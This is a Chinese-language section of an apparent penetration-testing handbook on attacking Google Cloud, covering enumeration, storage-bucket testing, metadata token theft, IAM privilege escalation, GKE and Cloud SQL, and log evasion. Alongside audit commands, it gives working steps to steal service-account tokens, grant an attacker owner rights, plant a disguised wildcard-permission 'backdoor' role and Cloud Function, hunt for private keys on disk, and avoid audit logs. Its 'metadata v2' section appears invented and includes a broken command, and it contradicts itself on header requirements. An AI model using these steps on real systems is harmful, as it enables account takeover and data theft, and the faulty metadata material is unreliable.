

## 19.3 GCP安全核心技巧

GCP（Google Cloud Platform）采用与AWS/Azure不同的安全架构哲学：以项目（Project）为核心组织单元，IAM策略以IAM Condition和Organization Policy为特色，元数据服务采用不可变的v1/v2双版本设计。掌握GCP安全攻防，需要理解其独有的信任边界、身份体系和资源模型。

### GCP安全架构总览



### 19.3.1 GCP枚举与侦察

#### gcloud CLI环境配置

在开始任何GCP安全评估之前，首先需要配置认证环境。gcloud CLI是GCP的主要交互工具，类似于AWS CLI：

```bash
# 安装gcloud CLI（如果未安装）
curl https://sdk.cloud.google.com | bash
exec -l $SHELL
gcloud init

# 认证方式1：交互式登录（适用于个人账户）
gcloud auth login

# 认证方式2：使用服务账户密钥文件
gcloud auth activate-service-account --key-file=compromised-key.json

# 认证方式3：使用OAuth refresh token
gcloud auth login --no-launch-browser

# 验证当前认证身份
gcloud auth list
gcloud config get-value account

# 查看当前配置的项目和区域
gcloud config list
```

#### 资源层次结构枚举

GCP的资源按 Organization → Folder → Project → Resource 的层次结构组织。从上到下枚举可以快速了解目标的整体架构：

```bash
# 枚举组织节点（需要resourcemanager.organizations.get权限）
gcloud organizations list --format='table(displayName,id,directoryCustomerId)'

# 获取组织级IAM策略（可能包含组织级别的管理员）
gcloud organizations get-iam-policy ORG_ID --format=json

# 枚举文件夹
gcloud resource-manager folders list --organization=ORG_ID \
  --format='table(displayName,lifecycleState,folderId)'

# 枚举项目（核心步骤——所有资源都在项目下）
gcloud projects list --format='table(projectId,name,lifecycleState,projectNumber)'

# 获取项目详情（包括创建时间、标签等元数据）
gcloud projects describe PROJECT_ID

# 设置活动项目（后续所有命令基于此项目）
gcloud config set project PROJECT_ID
```

#### IAM策略与权限枚举

IAM枚举是GCP安全评估的核心。GCP的IAM策略可以在组织、文件夹、项目和资源四个层级设置，攻击者需要理解策略的继承关系：

```bash
# 获取项目级IAM策略（最关键的一步）
gcloud projects get-iam-policy PROJECT_ID --format=json

# 获取项目级IAM策略（人类可读格式）
gcloud projects get-iam-policy PROJECT_ID \
  --format='table(bindings.role,bindings.members)'

# 列出所有自定义角色（组织级和项目级）
gcloud iam roles list --project=PROJECT_ID \
  --format='table(name,title,stage,deleted)'

# 查看特定角色的权限（分析角色能做什么）
gcloud iam roles describe ROLE_ID --project=PROJECT_ID

# 列出组织级自定义角色
gcloud iam roles list --organization=ORG_ID

# 列出所有服务账户及其密钥
gcloud iam service-accounts list --project=PROJECT_ID \
  --format='table(email,displayName,disabled,uniqueId)'

# 列出服务账户的IAM策略（谁能模拟这个SA）
gcloud iam service-accounts get-iam-policy SA_EMAIL

# 列出服务账户的访问密钥（密钥泄露是常见攻击向量）
gcloud iam service-accounts keys list --iam-account=SA_EMAIL \
  --format='table(keyId,validAfterTime,validBeforeTime,keyType)'

# 检查哪些服务账户有外部密钥（keyType=USER_MANAGED更危险）
gcloud iam service-accounts keys list --iam-account=SA_EMAIL \
  --filter='keyType=USER_MANAGED'
```

#### 计算资源枚举

```bash
# 列出Compute Engine实例（含元数据和网络信息）
gcloud compute instances list --format='table(name,zone,machineType,status,networkInterfaces[0].networkIP,networkInterfaces[0].accessConfigs[0].natIP)'

# 列出实例的详细信息（含服务账户、磁盘、标签）
gcloud compute instances describe INSTANCE_NAME --zone=ZONE

# 列出防火墙规则（网络层攻击面）
gcloud compute firewall-rules list \
  --format='table(name,network,direction,priority,sourceRanges,allowed,disabled)'

# 列出VPC网络
gcloud compute networks list --format='table(name,subnetMode,bgpRoutingMode)'

# 列出负载均衡器
gcloud compute forwarding-rules list --format='table(name,region,IPAddress,target)'

# 列出Cloud SQL实例
gcloud sql instances list --format='table(name,databaseVersion,region,settings.ipConfiguration.ipv4Enabled,state)'

# 列出GKE集群
gcloud container clusters list --format='table(name,location,status,currentMasterVersion,endpoint)'

# 列出Cloud Functions
gcloud functions list --format='table(name,status,trigger,runtime,entryPoint)'

# 列出Cloud Run服务
gcloud run services list --format='table(name,region,url,traffic)'

# 列出Pub/Sub主题和订阅
gcloud pubsub topics list --format='table(name)'
gcloud pubsub subscriptions list --format='table(name,topic,ackDeadlineSeconds)'

# 列出BigQuery数据集
bq ls --format=prettyjson

# 列出KMS密钥环和密钥
gcloud kms keyrings list --location=global --format='table(name)'
gcloud kms keys list --keyring=KEYRING --location=global --format='table(name,purpose,primary.state)'
```

#### 使用Scout Suite进行自动化评估

Scout Suite是多云安全审计工具，支持GCP自动化枚举和风险评估：

```bash
# 安装Scout Suite
pip3 install scoutsuite

# 使用服务账户密钥运行扫描
scout gcp --user-account --project-id PROJECT_ID

# 使用组织级扫描（需要Organization Viewer权限）
scout gcp --user-account --organization-id ORG_ID

# 查看报告（生成HTML报告文件）
# 打开 scout-report/results/ 下的HTML文件即可
```

### 19.3.2 GCS桶安全测试

GCS（Google Cloud Storage）是GCP的对象存储服务，类似AWS S3。GCS桶的错误配置是GCP最常见的安全问题之一。

#### GCS桶枚举与发现

```bash
# 列出当前项目的所有桶
gsutil ls

# 列出桶的详细信息
gsutil ls -L

# 使用项目ID枚举桶（跨项目枚举）
gsutil ls -p PROJECT_ID

# 检查桶的IAM策略
gsutil iam get gs://target-bucket/

# 检查桶是否对所有用户公开（allUsers = 匿名公开访问）
gsutil iam get gs://target-bucket/ | grep allUsers
gsutil iam get gs://target-bucket/ | grep allAuthenticatedUsers

# 检查桶的ACL（旧版访问控制）
gsutil acl get gs://target-bucket/

# 检查桶的默认对象ACL
gsutil defacl get gs://target-bucket/

# 列出桶内容（递归列出所有对象）
gsutil ls -r gs://target-bucket/

# 列出对象的元数据
gsutil ls -la gs://target-bucket/

# 批量枚举GCS桶（使用gcpbucketbrute工具）
python3 gcpbucketbrute.py -k target.com -w wordlist.txt

# 使用gobuster进行桶名爆破
gobuster dns -d storage.googleapis.com -w bucket-names.txt
```

#### GCS桶安全检查

```bash
# 检查对象级ACL是否过于宽松
gsutil acl get gs://target-bucket/sensitive-file.csv

# 检查是否启用了版本控制（旧版本可能包含敏感数据）
gsutil versioning get gs://target-bucket/

# 如果启用版本控制，列出对象的所有版本
gsutil ls -a gs://target-bucket/sensitive-file.csv

# 检查是否启用日志记录
gsutil logging get gs://target-bucket/

# 检查生命周期策略
gsutil lifecycle get gs://target-bucket/

# 检查保留策略（对象锁定）
gsutil retention get gs://target-bucket/

# 检查是否启用CORS（可能泄露信息给第三方域名）
gsutil cors get gs://target-bucket/

# 检查是否配置了默认KMS加密
gsutil encryption gs://target-bucket/
```

#### GCS数据提取

```bash
# 下载单个文件
gsutil cp gs://target-bucket/file.txt ./

# 递归下载整个桶
gsutil -m cp -r gs://target-bucket/ ./local-dir/

# 查找敏感文件（通配符模式）
gsutil ls gs://target-bucket/**/*.{env,key,pem,p12,json,sql,bak} 2>/dev/null

# 使用正则表达式在桶中搜索敏感内容
gsutil cat gs://target-bucket/config/* | grep -iE 'password|secret|api.?key|token|credential'

# 检查是否有公开可写的桶（尝试创建测试文件）
echo "test" | gsutil cp - gs://target-bucket/test-probe.txt 2>/dev/null && \
  echo "[!] Bucket is publicly writable!" && \
  gsutil rm gs://target-bucket/test-probe.txt
```

#### GCS常见安全漏洞

| 漏洞类型 | 风险等级 | 检测方法 | 影响范围 |
|---------|---------|---------|---------|
| allUsers公开读取 | 严重 | `gsutil iam get` 查看是否有allUsers角色 | 数据完全公开 |
| allUsers公开写入 | 严重 | 尝试上传测试文件 | 数据篡改/植入恶意文件 |
| allAuthenticatedUsers | 高 | IAM策略中包含此主体 | 任何GCP用户可访问 |
| 旧版ACL过于宽松 | 高 | `gsutil acl get` 检查 | 绕过IAM的独立权限控制 |
| 版本控制泄露 | 中 | `gsutil ls -a` 列出旧版本 | 已删除的敏感数据可恢复 |
| CORS配置不当 | 中 | `gsutil cors get` 检查 | 跨域数据窃取 |
| 日志未启用 | 低 | `gsutil logging get` | 无法追溯访问行为 |

### 19.3.3 GCP元数据服务利用

GCP元数据服务运行在 `metadata.google.internal`（169.254.169.254），提供实例和项目级别的元数据访问。与AWS的IMDS不同，GCP元数据服务v1默认不需要特殊头部即可访问，这使得SSRF攻击更加危险。

#### 元数据服务基础利用

```bash
# 基础元数据访问（v1端点，不需要认证头部）
# 注意：必须包含 Metadata-Flavor: Google 头部
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/

# 获取实例ID
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/id

# 获取项目ID
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/project/project-id

# 获取项目数字ID
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/project/numeric-project-id

# 获取实例名称和区域
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/name
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/zone

# 获取实例的自定义元数据（可能包含配置信息、密钥等）
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/attributes/

# 递归获取所有元数据（信息收集利器）
curl -H "Metadata-Flavor: Google" \
  "http://metadata.google.internal/computeMetadata/v1/?recursive=true"
```

#### 服务账户Token窃取

这是元数据利用中最关键的攻击向量——通过窃取的服务账户Token可以横向移动到GCP的其他服务：

```bash
# 列出实例关联的所有服务账户
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/

# 获取默认服务账户的OAuth2 Token
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token

# 返回格式：{"access_token":"ya29....","token_type":"Bearer","expires_in":3600}

# 获取服务账户的完整信息（邮箱、scope等）
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/email
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/aliases
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes

# 获取服务账户的Identity Token（用于调用Cloud Run/Cloud Functions等）
curl -H "Metadata-Flavor: Google" \
  "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/identity?audience=https://target-cloud-run-url.a.run.app&format=full"

# 使用窃取的Token调用GCP API
TOKEN=$(curl -s -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token \
  | jq -r '.access_token')

# 使用Token枚举项目
curl -H "Authorization: Bearer $TOKEN" \
  "https://cloudresourcemanager.googleapis.com/v1/projects"

# 使用Token列出存储桶
curl -H "Authorization: Bearer $TOKEN" \
  "https://storage.googleapis.com/storage/v1/b?project=PROJECT_ID"
```

#### 元数据服务v1 vs v2对比

| 特性 | v1（默认） | v2（加强版） |
|------|-----------|-------------|
| 访问方式 | 直接HTTP请求 | 需要PUT请求获取session token |
| SSRF防护 | 无（GET请求即可获取） | 需要先获取token，SSRF难以获取PUT响应 |
| Header要求 | Metadata-Flavor: Google | 需要X-Goog-Metadata-Token头 |
| Session限制 | 无 | Token有过期时间和TTL |
| Hop限制 | 无 | 默认1（防止容器内访问） |
| 推荐配置 | 仅测试环境 | 生产环境必须启用 |

```bash
# 检查实例是否启用了v1（如果v1可用，则SSRF风险更高）
curl -s -o /dev/null -w "%{http_code}" \
  -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/id
# 返回200表示v1仍然启用

# v2利用方式（如果有命令执行权限，而非仅SSRF）
# 第一步：获取session token（PUT请求）
TOKEN=$(curl -s -X PUT \
  -H "Metadata-Flavor: Google" \
  -H "Metadata-Flavor: Google" \
  "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" \
  -H "X-Goog-Metadata-Request: true")

# 第二步：使用token访问元数据
curl -H "Metadata-Flavor: Google" \
  -H "X-Goog-Metadata-Token: $TOKEN" \
  http://metadata.google.internal/computeMetadata/v1/instance/
```

### 19.3.4 IAM权限提升

GCP的IAM权限提升是渗透测试中最关键的环节。理解GCP的角色继承和条件策略是发现提权路径的基础。

#### 常见提权路径

**路径1：服务账户密钥创建**

如果攻击者拥有 `iam.serviceAccountKeys.create` 权限，可以为服务账户创建新的密钥：

```bash
# 列出高权限服务账户
gcloud iam service-accounts list --format='table(email,displayName)'

# 为服务账户创建新的JSON密钥
gcloud iam service-accounts keys create /tmp/stolen-key.json \
  --iam-account=TARGET_SA_EMAIL

# 使用窃取的密钥激活
gcloud auth activate-service-account --key-file=/tmp/stolen-key.json

# 验证新身份
gcloud auth list
```

**路径2：服务账户模拟（impersonation）**

如果攻击者拥有 `iam.serviceAccounts.getAccessToken` 或 `iam.serviceAccounts.implicitDelegation` 权限：

```bash
# 使用服务账户模拟获取临时token
gcloud auth print-access-token --impersonate-service-account=TARGET_SA_EMAIL

# 或者直接以SA身份运行命令
gcloud compute instances list --impersonate-service-account=TARGET_SA_EMAIL

# 通过API直接获取模拟token
TOKEN=$(gcloud auth print-access-token)
curl -X POST \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"scope":["https://www.googleapis.com/auth/cloud-platform"],"lifetime":"3600s"}' \
  "https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/TARGET_SA_EMAIL:generateAccessToken"
```

**路径3：IAM策略修改**

如果攻击者拥有 `resourcemanager.projects.setIamPolicy` 权限，可以直接给自己的账户绑定管理员角色：

```bash
# 获取当前IAM策略
gcloud projects get-iam-policy PROJECT_ID --format=json > current-policy.json

# 添加管理员绑定（在现有策略基础上追加）
gcloud projects add-iam-policy-binding PROJECT_ID \
  --member="user:attacker@gmail.com" \
  --role="roles/owner"

# 或者通过API批量添加多个高权限角色
gcloud projects set-iam-policy PROJECT_ID new-policy.json
```

**路径4：自定义角色提权**

如果攻击者能够创建或修改自定义角色：

```bash
# 创建一个包含所有权限的自定义角色
cat > /tmp/backdoor-role.yaml << 'EOF'
title: "System Monitor"
description: "Monitoring role for system health"
stage: "GA"
includedPermissions:
  - "*"
EOF

gcloud iam roles create backdoorRole \
  --project=PROJECT_ID \
  --file=/tmp/backdoor-role.yaml

# 绑定到自己的账户
gcloud projects add-iam-policy-binding PROJECT_ID \
  --member="user:attacker@gmail.com" \
  --role="projects/PROJECT_ID/roles/backdoorRole"
```

**路径5：通过GKE/Cloud Functions提权**

```bash
# 如果有container.clusters.get权限，可以获取kubeconfig
gcloud container clusters get-credentials CLUSTER_NAME --zone=ZONE

# 使用kubectl进行K8s层面的提权
kubectl auth can-i --list

# 如果有cloudfunctions.functions.update权限
# 可以修改Cloud Functions代码来窃取Token
gcloud functions deploy BACKDOOR_FUNCTION \
  --runtime python39 \
  --trigger-http \
  --entry-point handler \
  --source /tmp/backdoor-code/ \
  --service-account=HIGH_PRIV_SA@PROJECT.iam.gserviceaccount.com
```

#### GCP提权检测工具

```bash
# 使用 rhino-security-labs 的 GCP-IAM-Privilege-Escalation 工具
git clone https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation
cd GCP-IAM-Privilege-Escalation

# 枚举当前账户的提权路径
python3 gcp_iam_privesc.py

# 使用Prowler进行GCP安全审计
pip install prowler-cloud
prowler gcp --project-id PROJECT_ID

# 使用 gcp-iam-collector 枚举IAM策略
pip install gcp-iam-collector
gcp-iam-collector --project PROJECT_ID --output iam-export.json
```

### 19.3.5 服务账户攻击

服务账户（Service Account, SA）是GCP中最常被攻击的实体。SA既是身份又是资源，可以被分配密钥、绑定角色、被其他服务模拟。

#### 服务账户攻击面分析

```bash
# 列出所有服务账户及其密钥数量
for sa in $(gcloud iam service-accounts list --format='value(email)'); do
  key_count=$(gcloud iam service-accounts keys list --iam-account=$sa --format='value(keyId)' | wc -l)
  echo "SA: $sa | Keys: $key_count"
done

# 检查哪些SA被Compute实例使用（可从元数据窃取token）
gcloud compute instances list --format='json' | \
  jq -r '.[].serviceAccounts[].email' 2>/dev/null | sort -u

# 检查SA是否被Cloud Functions使用（函数代码可获取SA token）
gcloud functions list --format='json' | \
  jq -r '.[].serviceAccountEmail' 2>/dev/null | sort -u

# 检查SA是否被GKE Pod使用（Pod可获取SA token）
kubectl get serviceaccounts --all-namespaces
```

#### 服务账户密钥泄露场景

```bash
# 场景1：代码仓库中的硬编码密钥
# 搜索GitHub上的泄露密钥（JSON密钥文件格式特征明显）
# 特征：包含 "type": "service_account" 和 "private_key" 字段

# 场景2：环境变量中的密钥
# GCP客户端库会自动读取 GOOGLE_APPLICATION_CREDENTIALS 环境变量
echo $GOOGLE_APPLICATION_CREDENTIALS

# 场景3：配置文件中的密钥
find / -name "*.json" -exec grep -l "service_account" {} \; 2>/dev/null
find / -name "*.json" -exec grep -l "private_key_id" {} \; 2>/dev/null

# 场景4：容器镜像中的密钥
# 检查Docker镜像层中的敏感文件
docker history IMAGE_NAME --no-trunc
```

#### Workload Identity Federation

GCP支持外部身份联邦，允许非GCP身份（AWS IAM角色、Azure AD用户、OIDC IdP）访问GCP资源。这是一个较新的攻击面：

```bash
# 列出已配置的工作负载身份池
gcloud iam workload-identity-pools list --location=global \
  --format='table(displayName,name,state)'

# 列出身份池中的提供者
gcloud iam workload-identity-pools providers list \
  --location=global \
  --workload-identity-pool=POOL_ID \
  --format='table(displayName,name,state)'

# 如果攻击者控制了被信任的外部身份（如AWS IAM角色）
# 可以通过联邦获取GCP的访问token
```

### 19.3.6 网络安全测试

#### VPC与防火墙规则分析

```bash
# 列出所有VPC网络及其子网
gcloud compute networks list --format='table(name,subnetMode,bgpRoutingMode)'
gcloud compute networks subnets list --format='table(name,region,ipCidrRange,privateGoogleAccess,network)'

# 列出所有防火墙规则（寻找过于宽松的规则）
gcloud compute firewall-rules list --format='table(name,network,direction,priority,sourceRanges,allowed,disabled)' \
  | grep -E "0.0.0.0/0|disabled: True"

# 重点关注：允许来自任意IP的入站规则
gcloud compute firewall-rules list --filter='sourceRanges="0.0.0.0/0"' \
  --format='table(name,network,allowed)'

# 检查是否有默认允许所有入站的规则
gcloud compute firewall-rules list --filter='direction=INGRESS AND priority=65534' \
  --format='table(name,network,sourceRanges,allowed)'

# 列出路由（可能暴露VPN或对等连接）
gcloud compute routes list --format='table(name,destRange,priority,nextHopInstance,nextHopGateway)'

# 列出VPN隧道
gcloud compute vpn-tunnels list --format='table(name,region,targetVpnGateway,peerIp,status)'

# 列出VPC对等连接
gcloud compute networks peerings list --format='table(name,network,peerNetwork,state)'
```

#### Private Google Access与VPC Service Controls

```bash
# 检查子网是否启用了Private Google Access
gcloud compute networks subnets describe SUBNET_NAME --region=REGION \
  --format='value(privateIpGoogleAccess)'

# 列出VPC Service Controls边界（防御数据外泄的关键机制）
gcloud access-context-manager perimeters list --format='table(title,name,perimeterType)'

# 检查服务边界内包含的项目
gcloud access-context-manager perimeters describe PERIMETER_NAME \
  --format='json'

# VPC Service Controls是GCP中防止数据外泄的关键机制
# 攻击者需要识别哪些服务在边界内，哪些在边界外
```

### 19.3.7 GKE（Google Kubernetes Engine）安全

GKE是GCP的托管Kubernetes服务，其安全涉及集群配置、Pod安全、网络策略等多个层面。

```bash
# 列出GKE集群
gcloud container clusters list --format='table(name,location,status,currentMasterVersion,endpoint)'

# 获取集群详细信息
gcloud container clusters describe CLUSTER_NAME --zone=ZONE

# 检查是否启用了网络策略
gcloud container clusters describe CLUSTER_NAME --zone=ZONE \
  --format='value(networkPolicy.enabled)'

# 检查是否启用了Shielded GKE Nodes
gcloud container clusters describe CLUSTER_NAME --zone=ZONE \
  --format='value(shieldedNodes.enabled)'

# 检查Master Authorized Networks（控制谁能访问API Server）
gcloud container clusters describe CLUSTER_NAME --zone=ZONE \
  --format='value(masterAuthorizedNetworksConfig)'

# 检查是否启用了Private Cluster（节点无公网IP）
gcloud container clusters describe CLUSTER_NAME --zone=ZONE \
  --format='value(privateClusterConfig.enablePrivateNodes)'

# 检查Workload Identity配置
gcloud container clusters describe CLUSTER_NAME --zone=ZONE \
  --format='value(workloadIdentityConfig.workloadPool)'

# 获取kubeconfig进行K8s层面的深入测试
gcloud container clusters get-credentials CLUSTER_NAME --zone=ZONE

# 检查RBAC权限
kubectl auth can-i --list

# 列出所有命名空间的Secret
kubectl get secrets --all-namespaces

# 检查是否有特权Pod（容器逃逸风险）
kubectl get pods --all-namespaces -o json | \
  jq -r '.items[] | select(.spec.containers[].securityContext.privileged==true) | .metadata.namespace + "/" + .metadata.name'
```

### 19.3.8 Cloud SQL与数据库安全

```bash
# 列出Cloud SQL实例
gcloud sql instances list --format='table(name,databaseVersion,region,state,settings.ipConfiguration.ipv4Enabled)'

# 检查实例详情（特别是网络配置）
gcloud sql instances describe INSTANCE_NAME

# 重点检查：是否启用了公网IP（ipv4Enabled=true表示公网可达）
gcloud sql instances describe INSTANCE_NAME \
  --format='value(settings.ipConfiguration.ipv4Enabled)'

# 检查是否启用了SSL要求
gcloud sql instances describe INSTANCE_NAME \
  --format='value(settings.ipConfiguration.requireSsl)'

# 检查授权网络（哪些IP可以连接）
gcloud sql instances describe INSTANCE_NAME \
  --format='value(settings.ipConfiguration.authorizedNetworks)'

# 检查是否有备份（可用于数据窃取）
gcloud sql backups list --instance=INSTANCE_NAME

# 如果能访问Cloud SQL Proxy，尝试连接
gcloud sql connect INSTANCE_NAME --user=root

# BigQuery数据泄露检查
bq ls --format=prettyjson
bq show DATASET_ID

# 检查BigQuery数据集的访问控制
bq show --format=prettyjson DATASET_ID
```

### 19.3.9 审计日志与检测规避

#### GCP审计日志分析

```bash
# 列出项目中已启用的审计日志配置
gcloud logging sinks list --format='table(name,destination,filter)'

# 查询最近的IAM变更
gcloud logging read 'protoPayload.methodName="SetIamPolicy"' \
  --limit=50 --format='table(timestamp,protoPayload.authenticationInfo.principalEmail,protoPayload.methodName)'

# 查询服务账户密钥创建事件（高风险操作）
gcloud logging read 'protoPayload.methodName="google.iam.admin.v1.CreateServiceAccountKey"' \
  --limit=20 --format='table(timestamp,protoPayload.authenticationInfo.principalEmail,resource.labels.email_id)'

# 查询Compute实例创建事件（可能的横向移动）
gcloud logging read 'protoPayload.methodName="v1.compute.instances.insert"' \
  --limit=20 --format='table(timestamp,protoPayload.authenticationInfo.principalEmail,resource.labels.instance_id)'

# 查询Storage桶的公开策略修改
gcloud logging read 'protoPayload.methodName="storage.setIamPermissions"' \
  --limit=20

# 检查Data Access审计日志是否启用（默认不启用，但对安全评估很重要）
gcloud logging read 'logName="projects/PROJECT_ID/logs/cloudaudit.googleapis.com%2Fdata_access"' \
  --limit=5 --format='table(timestamp,logName)'
```

#### 检测规避技巧

```bash
# 避免在Cloud Audit Logs中留下明显痕迹：

# 1. 使用低频率的API调用，避免触发异常检测
# 2. 优先使用已有的服务账户Token，而不是创建新密钥
# 3. 避免修改IAM策略（会产生SetIamPolicy审计日志）
# 4. 通过合法的服务调用间接访问资源，而不是直接API调用
# 5. 注意VPC Flow Logs的网络行为记录

# 检查项目是否启用了VPC Flow Logs
gcloud compute networks subnets describe SUBNET_NAME --region=REGION \
  --format='value(logConfig.enable)'

# 检查是否有告警策略（Security Command Center通知）
gcloud alpha monitoring policies list 2>/dev/null
```

### 19.3.10 GCP安全配置常见误区

**误区1：认为默认服务账户权限有限**

GCP默认创建的Compute Engine服务账户默认拥有 `Editor` 角色（roles/editor），可以访问项目中的绝大多数资源。很多管理员在不了解的情况下直接使用默认SA运行生产服务。

**误区2：忽略组织级IAM策略的影响**

组织和文件夹级别的IAM策略会向下继承到所有子项目。一个组织级的 `roles/viewer` 绑定意味着该主体可以看到组织下所有项目的所有资源。

**误区3：认为VPC Service Controls能防所有数据外泄**

VPC Service Controls只保护支持该机制的GCP服务。不支持的服务（如部分第三方API）不在保护范围内。此外，边界内的主体仍然可以在边界内自由复制数据。

**误区4：忽略GKE的节点服务账户**

GKE节点默认使用Compute Engine默认服务账户。如果Pod挂载了节点的服务账户Token（旧版GKE默认行为），Pod可以获取该SA的完整权限。

**误区5：依赖网络层隔离而忽略IAM层安全**

GCP的安全模型以IAM为核心，网络隔离是补充手段。很多管理员配置了严格的VPC和防火墙规则，但IAM策略过于宽松，导致通过IAM层面可以绕过网络限制。

### 19.3.11 实战工具速查表

| 工具 | 用途 | 安装/使用 |
|------|------|----------|
| gcloud CLI | GCP官方CLI，全能工具 | `apt install google-cloud-sdk` |
| gsutil | GCS专用操作工具 | 随gcloud CLI安装 |
| Scout Suite | 多云安全审计（含GCP） | `pip install scoutsuite` |
| Prowler | 云安全评估（支持GCP） | `pip install prowler-cloud` |
| gcpbucketbrute | GCS桶名批量枚举 | `pip install gcpbucketbrute` |
| rhino-GCP-privesc | GCP IAM提权路径检测 | GitHub: RhinoSecurityLabs |
| gcp-iam-collector | IAM策略导出与分析 | `pip install gcp-iam-collector` |
| kubectl | GKE集群操作 | `gcloud components install kubectl` |
| kubeletctl | kubelet API漏洞利用 | GitHub: cyberark/kubeletctl |
| trivy | 容器镜像漏洞扫描 | `apt install trivy` |
| Forseti Security | GCP安全治理框架 | GitHub: forseti-security |
| CloudSploit | GCP配置审计 | GitHub: cloudsploit/scans |

### 19.3.12 GCP与AWS/Azure安全对比

理解三大云平台的安全差异有助于在多云环境中快速定位攻击面：

| 安全维度 | GCP | AWS | Azure |
|---------|-----|-----|-------|
| 资源层次 | Organization → Folder → Project → Resource | Account → Resource | Tenant → Subscription → Resource Group → Resource |
| 核心身份 | Google Account + Service Account | IAM User + IAM Role | Azure AD User + Managed Identity |
| 元数据服务 | metadata.google.internal（v1默认开放） | 169.254.169.254（IMDSv2更安全） | 169.254.169.254（IMDS需特殊配置） |
| 对象存储 | GCS（IAM + ACL双层控制） | S3（Bucket Policy + ACL） | Blob Storage（RBAC + SAS Token） |
| 容器服务 | GKE（默认使用节点SA） | EKS（IRSA推荐） | AKS（AAD Pod Identity） |
| 审计日志 | Cloud Audit Logs（Data Access默认关闭） | CloudTrail（默认启用管理事件） | Azure Activity Log + Diagnostic Settings |
| 密钥管理 | Secret Manager + KMS | Secrets Manager + KMS | Key Vault |
| 特色安全机制 | VPC Service Controls、Organization Policy | SCP（Service Control Policy）、Permission Boundary | Azure Policy、Conditional Access |
